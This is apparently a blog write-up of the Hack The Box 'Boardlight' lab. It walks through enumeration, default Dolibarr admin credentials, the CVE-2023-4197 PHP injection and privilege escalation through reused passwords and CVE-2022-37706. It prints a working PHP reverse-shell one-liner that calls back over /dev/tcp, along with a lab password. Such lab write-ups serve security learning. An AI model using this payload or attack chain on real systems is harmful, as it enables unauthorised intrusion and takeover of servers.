 ```yaml
---
title: "Boardlight"
description: "An easy rated Linux box that emphasizes and develops enumeration skills, both externally and internally. Foothold is obtained through an authenticated RCE that exploits improper input sanitization. Further enumeration reveals a plaintext password that is reused by another user, allowing escalation of privileges. Finally, root access is obtained through a zero-day exploit found in the Enlightenment Window Manager."
tags:
  [
    "writeup",
    "htb",
    "enumeration",
    "dolibarr",
    "CVE-2023-4197",
    "RCE",
    "CVE-2022-37706",
  ]
slug: "boardlight"
cover: "Boardlight.png"
date: 2024-06-10
isMachineActive: true
---
```


## Table of Contents

## Reconnaisance

We of course start out with our trusty `nmap` scan.

```bash
nmap -sC -sV -oA HTB/Machines/BoardLight/boardlight <ip_address>
```

![nmap scan](boardlight-nmap.webp)

This tells us that we have only port 22 and 80 open. Port 22 is usually a nothing burger, so I always check out port 80 first.

## Enumeration

### Port 80 - HTTP (Apache httpd)

**Service:** Apache httpd
**Version:** 2.4.41

I've already checked this version on another box and it wasn't vulnerable so I don't even bother here. Normally, you would want to at least check the version, but since I had already checked it within the last week or so I completed this machine, I didn't worry about it.

If you navigate to the IP address of your machine, you're greeted by the webpage for Boardlight.

![homepage](boardlight-80-homepage.webp)

There's a few things on the page, but most of the links go nowhere or redirect to the root `/`. However, there is a contact form.

![contact form](boardlight-80-contact-form.webp)

Good to have in our back pocket but I start running `gobuster` before doing anything else.

![gobuster](boardlight-80-gobuster.webp)

We get a few PHP pages back, so this tells us the site is running PHP. Good to know. Not much in the results than what we mostly already knew from just clicking around the site. So this doesn't really help.

If we analyze the Page Source, we see that there's a commented out path for `/portfolio.php`. If we navigate to it, we get a "File not found" error. Oh well. So we'll continue on with our enumeration.

![portfolio error](boardlight-80-portfolio.webp)

Taking a closer look at the entire webpage reveals in the footer a copyright notice for "Board.htb". This seems promising. If we add the IP address for the machine and route to `board.htb` in our `/etc/hosts` file, we can still access the webpage, but we can also do more enumeration with `gobuster` using the `vhost` option.

![gobuster vhost](boardlight-gobuster-vhost.webp)

That's more like it. We can see that there's one vhost on the machine at `crm.board.htb`.

```bash
gobuster vhost --domain board.htb --append-domain -u <ip_address> -w /usr/share/wordlists/seclists/Discovery/DNS/subdomain-top1million-11000.txt -t 100
```

Once we add this result to `/etc/hosts` for the same IP address, we can navigate to it and...

![dolibarr admin login](boardlight-dolibarr-login.webp)

Without even really thinking about it, I immediately tried, `admin:admin` and it worked.

![dolibarr admin page](boardlight-dolibarr-admin-panel.webp)

![doh](doh.gif)

Looking around, we get the following information.

**Service:** Dolibarr
**Version:** 17.0.0

We can see from the "My Dashboard" where we currently are that we still have some access denied and certain items in the left sidebar are greyed out. However, there is a Tools and Websites button in the top navbar. I like the Websites one so I head over there first, which leads us to exploitation.

## Exploitation

After some time Googling (because I was confident this was the attack vector), I stumbled on [this](https://starlabs.sg/advisories/23/23-4197/) page which outlines a CVE for Dolibarr when creating a website. Well, funny - that's what I wanted to do! The CVE description is as follows:

```
Improper input validation in Dolibarr ERP CRM <= v18.0.1 fails to strip certain PHP code from user-supplied input when creating a Website, allowing an attacker to inject and evaluate arbitrary PHP code.
```

We'll work on this in the next section, which is obtaining foothold.

### Foothold

The article from above leads me to think that we can inject some PHP shell into the header that will then be read and executed. And after quite a bit of messing around with creating a website, looking at what options are available to me, I finally manage to inject a PHP shell I got from [HackTricks](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/linux#php) and have it be executed. As soon as I entered the shell and clicked Save on the page, I got my shell in my listener.

```php
<?php exec("/bin/bash -c 'bash -i >/dev/tcp/10.10.14.18/1337 0>&1'"); ?>
```

![www-data user](boardlight-www-data.webp)

We can run `wget` and `curl` on the target, so we can run a Python web server and grab `linpeas` from our machine and upload it to the target. We have to run `chmod u+x linpeas.sh` but then we can run it as normal.

```bash
chmod u+x linpeas.sh && ./linpeas.sh | tee linpeas.out
```

Running `linpeas`, we see the list of users and groups and it highlights `larissa`. Seems like this would be the next likely target.

![linpeas users](boardlight-linpeas-users.webp)

If we review the `linpeas` output, we see there are some config files. One such config file is buried deep in the home directory for `www-data`. The file is located at `~/html/crm.board.htb/htdocs/conf/conf.php`.

If we `cat` that out

![conf.php](boardlight-conf-php.webp)
^entire config not shown

Inside this file, we can find what looks like the Dolibarr config for the root, `crm.board.htb`. We see a user and a password, `dolibarrowner:serverfun2$2023`. So now, I want to take a step back and review what we have.

### Privilege Escalation

#### larissa

We are currently logged in as `www-data` on the target machine. We've found the Dolibarr configuration file that must have been configured by one of the two other users on this machine. Under normal circumstances, whoever set this up _hopefully_ wouldn't have reused this password. But in a CTF environment (really, even in a normal one too), it's good to at least test.

So if we take this password and try to SSH as larissa onto the box, it works!

![larissa ssh](boardlight-ssh-larissa.webp)

![user flag](boardlight-user.webp)

Bad larissa, bad. Don't reuse passwords! Especially ones stored in cleartext in config files on a server somewhere.

We can start by running `linpeas` again and if we review the output, it tells us there's an unknown SUID binary running. Initially, I wasn't too sure what this was and I kept looking around. I didn't even look into it at first. But after some digging and digging, I found nothing so looked into what this was.

![enlightenment](boardlight-linpeas-enlightenment.webp)

#### root

Enlightenment is a Linux Windows Manager and searching for "Enlightenment CVE", we get a [zero-day exploit POC](https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit/tree/main). All we need to do is download this file (I cloned the repo) on our machine, serve it up, download it on the target and run it.

![boardlight-root-privesc](boardlight-root-privesc.webp)

And that's a wrap.

![root](boardlight-root.webp)

## Conclusion

I _really_ enjoyed this machine. It really put your enumeration skills to the test and pays off really well in the end. The privilege escalation from `larissa` to `root` is a bit trivial but it's always cool to see exploits like this and how they just automagically take you from the user to root.
